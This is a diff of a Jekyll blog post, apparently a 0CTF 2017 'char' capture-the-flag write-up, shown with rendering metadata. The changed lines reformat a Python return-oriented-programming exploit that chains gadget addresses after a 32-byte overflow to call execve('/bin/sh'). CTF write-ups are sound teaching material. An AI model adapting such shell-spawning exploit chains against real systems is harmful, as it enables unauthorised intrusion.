

Before and after one commit to gymgit/gymgit.github.io, a Jekyll site: the page built from _posts/2017-03-20-0ctf-char.md, in a window 1280 px wide and 1400 px high, scrolled down 2194 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

```diff
--- a/_posts/2017-03-20-0ctf-char.md
+++ b/_posts/2017-03-20-0ctf-char.md
@@ -59,42 +59,45 @@
 
     binsh = 0x556bb7ec
 
-#    * 0x556d2a51/0x00174a51 : pop ecx ; add al, 0xa ; ret
+# 0x556d2a51/0x00174a51 : pop ecx ; add al, 0xa ; ret
     popecx = 0x556d2a51
-#    * hex((0x3a212121-(0xc35b0000+0x215a6935))&0xffffffff)
+# hex((0x3a212121-(0xc35b0000+0x215a6935))&0xffffffff)
     edxval = 0x3a212121
     ecxval = 0x215a6935
-#    * 0x555f3555/0x00095555 : pop edx ; xor eax, eax ; pop edi ; ret
+# 0x555f3555/0x00095555 : pop edx ; xor eax, eax ; pop edi ; ret
     popedx = 0x555f3555 # 0 eax popedi
     filler = 'CCCC'
-#    * 0x556a6253/0x00148253 : mov eax, ecx ; ret
+# 0x556a6253/0x00148253 : mov eax, ecx ; ret
     moveaxecx = 0x556a6253
-#    * 0x5557734b/0x0001934b : add eax, 0xc35b0000 ; ret
+# 0x5557734b/0x0001934b : add eax, 0xc35b0000 ; ret
     addieax = 0x5557734b
-#    * 0x5560365c/0x000a565c : sub edx, eax ; pop esi ; mov eax, edx ; pop edi ; pop ebp ; ret
+# 0x5560365c/0x000a565c : sub edx, eax ; pop esi ; mov eax, edx ; pop edi ; pop ebp ; ret
     subedxeax = 0x5560365c #pop esi,edi, ebp trash eax
 
-	# Set up bin sh addr in edx
-    payload = 'A'*32 +p32(popecx) + p32(ecxval) + p32(popedx) + p32(edxval) + filler + p32(moveaxecx)+p32(addieax) + p32(subedxeax) +filler*3
+    # Set up bin sh addr in edx
+    payload = 'A'*32 +p32(popecx) + p32(ecxval)\
+        + p32(popedx) + p32(edxval) + filler \
+        + p32(moveaxecx)+p32(addieax) + p32(subedxeax) +filler*3
 
 
-#    * 0x55617a5f/0x000b9a5f : xchg eax, ecx ; mov eax, 0xff ; jne 0xb9a41 ; ret
+# 0x55617a5f/0x000b9a5f : xchg eax, ecx ; mov eax, 0xff ; jne 0xb9a41 ; ret
     xchgeaxecx = 0x55617a5f
-#    * 0x555f6428/0x00098428 : xor eax, eax ; ret
+# 0x555f6428/0x00098428 : xor eax, eax ; ret
     xoreax = 0x555f6428
     # Set null in ecx and eax
     payload += p32(xoreax) + p32(xchgeaxecx) + p32(xoreax)
 
 
-#    * 0x555f2166/0x00094166 : pop ebx ; pop edi ; ret
+# 0x555f2166/0x00094166 : pop ebx ; pop edi ; ret
     popebxedi = 0x555f2166
     callexecve = 0x55616967
 
-	# Set up ebx and edi
-	# the subedxeax gadget pops esi, edi, ebp so it is used to position the stack after the pusha
+    # Set up ebx and edi
+    # the subedxeax gadget pops esi, edi, ebp so
+    #it is used to position the stack after the pusha
     payload += p32(popebxedi) + p32(callexecve) + p32(subedxeax)
 
-#   * pushal; ret; -> returns edi
+# pushal; ret; -> returns edi
     pushal = 0x5563704c
     # pushall
     payload += p32(pushal)
```
